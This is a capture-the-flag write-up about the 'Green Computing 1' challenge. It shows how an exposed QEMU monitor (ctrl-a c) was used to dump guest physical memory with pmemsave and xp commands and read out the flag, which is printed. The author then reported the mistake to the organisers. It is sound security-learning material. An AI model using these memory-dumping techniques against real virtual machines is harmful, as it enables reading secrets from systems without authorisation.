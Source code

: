 We are able to overwrite the DSDT table with our own. I had no idea what this was at first, but after a bit of searching I came across a page on the archlinux wiki about [replacing the DSDT table](https://wiki.archlinux.org/index.php/DSDT#Recompiling_it_yourself). 

I noticed that the run script did not redirect the monitor to `/dev/null`, testing locally and remote this proved correct as `ctrl-a c` dropped us into the monitor! I guessed this was a mistake but decided to try get the flag before reporting it. Locally I dumped a chunk of physical memory and grepped for the flag:

```bash
(qemu) pmemsave 0 0x1000000 mem.bin`

$ xxd mem.bin |grep hxp
0038d000: 726f 6f74 3a78 3a30 3a0a 6878 703a 783a  root:x:0:.hxp:x:
0038e280: 6467 6964 2068 7870 2073 680a 0000 0000  dgid hxp sh.....
0038f020: 680a 6878 703a 783a 3130 3030 3a31 3030  h.hxp:x:1000:100
0038f030: 303a 6878 702c 2c2c 2c3a 2f68 6f6d 652f  0:hxp,,,,:/home/
0038f040: 6878 703a 2f62 696e 2f73 680a 0000 0000  hxp:/bin/sh.....
00390000: 6878 707b 2e2e 2e2e 2e2e 2e2e 2e2e 2e2e  hxp{............
```

So locally the flag is at `0x390000`, dumping the same region remotely shows us the init script:

```bash
(qemu) xp/100bc 0x390000
0000000000390000: '#' '!' '/' 'b' 'i' 'n' '/' 's'
0000000000390008: 'h' '\n' 's' 'e' 't' ' ' '-' 'e'
0000000000390010: 'u' 'o' ' ' 'p' 'i' 'p' 'e' 'f'
```

But if we keep looking a bit further we find the flag:
```bash
(qemu) xp/100bc 0x392000
xp/100bc 0x392000
0000000000392000: 'h' 'x' 'p' '{' 'p' 'l' '3' '4'
0000000000392008: '5' '3' '_' '4' 'u' 'd' '1' '7'
0000000000392010: '_' 'y' '0' 'u' 'r' '_' 'A' 'C'
0000000000392018: 'P' 'I' '_' '7' '4' 'b' 'l' '3'
0000000000392020: '5' '_' 'b' '3' 'f' '0' 'r' '3'
0000000000392028: '_' '7' 'h' '1' 'n' 'k' '1' '6'
0000000000392030: '_' '0' 'f' '_' '7' 'h' '3' '_'
0000000000392038: '3' 'n' 'v' '1' 'r' '0' 'n' 'm'
0000000000392040: '3' 'n' '7' '}' '\n' '\x00' '\x00' '\x00'
```

`hxp{pl3453_4ud17_y0ur_ACPI_74bl35_b3f0r3_7h1nk16_0f_7h3_3nv1r0nm3n7}`

I pinged an admin ([0xbb](https://github.com/0xbb) who was the challenge author, great work again!) and it was indeed a mistake, they dropped the points down and prepared a fixed version without the monitor :)

### Green Computing 1 - Fixed
> Please think of the environment before hacking this challenge.
> 
> Download:
> [Green Computing 1 - fixed-60ab55456a53352c.tar.xz](https://2018.ctf.link/assets/files/Green%20Computing%201%20-%20fixed-60ab55456a53352c.tar.xz)
> 
> Connection:
> nc 195.201.134.82 13376

